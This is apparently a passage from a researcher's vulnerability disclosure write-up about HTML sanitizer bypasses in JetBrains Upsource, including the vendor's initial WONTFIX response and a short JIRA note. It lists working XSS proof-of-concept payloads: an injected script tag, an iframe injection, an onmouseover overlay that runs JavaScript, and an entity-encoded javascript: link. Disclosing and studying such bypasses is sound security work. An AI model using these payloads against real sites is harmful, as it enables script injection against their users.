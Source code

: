 The issue was caused by transformations that were applied to the content _after_ it pas passed through the sanitizer. _Don't do that, the sanitizer should be the very last thing you have in your pipeline._

At first, JetBrains rejected to acknowledge that `<iframe>` or `<script>Set.constructor&#96;alert\x28document.domain\x29&#96;&#96;&#96;</script>` appearing in their «sanitized» content means that their sanitizer is not functioning correctly (_that script on the screenshot below didn't get executed, but only because their comments apparently are populated dynamically through something similar to setting `.innerHTML`_), stated that the sanitizer is supposed to work that way and closed the issue as WONTFIX. I had to spend a bit more time because of that ignorance on their part — PoC with `onmouseover` which actually executed JS code was filed afterwards and the issue was reopened immediately after that and was fixed the same day.

![XSS](/media/upsource.xss.script.png)

#### PoCs:

* Injects a `<script>` tag that is not executed due to content dynamically spawned: `<a href='//example.com"></a><script>Set.constructor&#96;alert\x28document.domain\x29&#96;&#96;&#96;</script>`.
* Injects an `<iframe>` tag: `<img src='/"><iframe>`, or any other content without spaces.
* Injects a script that executes onmouseover: `<a href='/"&nbsp;xxx=&#39;'>xxx' onmouseover="alert('xss')" style="position:fixed;left:0;right:0;top:0;bottom:0;z-index:100;background:white"></a>`. Can be used to inject any other attributes.
* A link that works on click: `<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70t&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click me!</a>` (note that one letter in protocol is delibirately not escaped).

### JIRA

_Not fixed, not treated as a security issue._

_This has been publically disclosed on [jira.atlassian.com](https://jira.atlassian.com/) — see [below](#reporting-issues) for more info._
